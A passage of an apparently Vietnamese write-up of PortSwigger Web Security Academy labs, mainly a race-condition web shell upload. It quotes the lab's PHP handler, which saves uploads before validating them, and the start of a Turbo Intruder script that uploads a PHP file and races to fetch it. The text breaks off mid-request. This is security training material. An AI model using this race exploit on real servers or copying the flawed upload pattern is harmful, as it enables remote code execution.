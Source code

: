 Mở file ta thu được secret
>![](https://i.imgur.com/PSjy3QO.png)

Kết quả cuối cùng
>![](https://i.imgur.com/pXXoKsb.png)

<hr>

### Bài 7: Web shell upload via race condition
> ![](https://i.imgur.com/AEI4Bg1.png)

Mô tả: trang web validate rất kĩ các file upload lên, nhưng vẫn có thể bị bypass bằng race condition

Cụ thể về tấn công race condition, em tìm thấy ví dụ như sau:
>![](https://i.imgur.com/dDuMrnG.png)

Cụ thể trong thời gian server validate file của ta, nó đã lưu file trong hệ thống, chỉ vài milisecond cũng đủ cho ta truy cập và thực thi file đó.

Bài lab cung cấp đoạn code xử lý file upload lên như sau:
```php
<?php
$target_dir = "avatars/";
$target_file = $target_dir . $_FILES["avatar"]["name"];

// temporary move
move_uploaded_file($_FILES["avatar"]["tmp_name"], $target_file);

if (checkViruses($target_file) && checkFileType($target_file)) {
    echo "The file ". htmlspecialchars( $target_file). " has been uploaded.";
} else {
    unlink($target_file);
    echo "Sorry, there was an error uploading your file.";
    http_response_code(403);
}
```
Mục tiêu của ta là viết mã khai thác để tranh thủ thời gian `checkViruses` ta đọc file và lấy nội dung.
Ta tạo script tự động POST file php của ta lên, sau đó gửi liên tục GET request tới file đó, trước khi server xử lý xong.
Ở đây em dùng extension `Turbo Intruder` để thực hiện tự động việc đó. Payload như sau: (có kèm giải thích code)

```python
# Default script ở https://github.com/PortSwigger/turbo-intruder/blob/master/resources/examples/default.py
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint, concurrentConnections=10,)
     #request1 is my POST request with php file
    request1 = '''
POST /my-account/avatar HTTP/1.1
Host: 0a0200a5048c2b2cc2d111ae00c600d2.web-security-academy.net
Cookie: session=AWH7DY2FXuyfcjTPBuMZ4cdUzG0wcPQB
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:93.0) Gecko/20100101 Firefox/93.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: es-ES,es;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------330791307811450659691420606466
Content-Length: 549
Origin: https://0a0200a5048c2b2cc2d111ae00c600d2.web-security-academy.net
Dnt: 1
Referer: https://0a0200a5048c2b2cc2d111ae00c600d2.web-security-academy.net/my-account
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
```